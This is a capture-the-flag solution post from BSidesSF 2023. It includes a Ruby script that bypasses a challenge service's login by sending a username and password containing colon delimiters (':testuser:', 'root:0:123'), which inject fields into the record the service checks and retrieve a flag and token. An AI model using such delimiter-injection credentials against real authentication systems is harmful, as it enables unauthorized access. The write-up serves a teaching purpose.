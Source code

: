 ```yaml
---
title: "Level 2 solution"
author: ron
categories:
- solutions
layout: post
date: '2023-05-15T16:05:54-07:00'
permalink: "/solution2"
featured: true

---
```


This is a solution to the second level. It should only be published part-way
through the night, unless I push it early by mistake!
<!--more-->

## Solution

[Here's the full source online](https://github.com/BSidesSF/ctf-2023/tree/main/challenges/getout2-gettoken/solution)

To solve level 2, connect to the service called `gettoken`, the same way you
did in level 1.

Then, authenticate with the username `:testuser:` and password `root:0:123`.
That should bypass the authentication checks! Check out the level 2 source to
see why.

Basically, using `libgetout.rb` (on the [implementation page](/protocol-implementation-ruby)):

```ruby
# encoding: ASCII-8bit

require './libgetout'

begin
  s = connect(ARGV[0], ARGV[1] || 1337)

  # Connect to gettoken
  out = use(s, 'gettoken')
  puts "Response to 'use': #{ out }"

  # Log in with the backdoor username/password
  s.write(create_message([
    {
      type: :string,
      value: ':testuser:',
    },
    {
      type: :string,
      value: 'root:0:123',
    },
  ]))
  out = read_message(s)
  if out[0][:value] != 0
    $stderr.puts "Backdoor account failed!"
    exit 1
  end

  flag = out[1][:value]
  token = out[2][:value]

  puts "token = #{ token }"
  puts "flag = #{ flag }"
ensure
  s.close if s
end
```
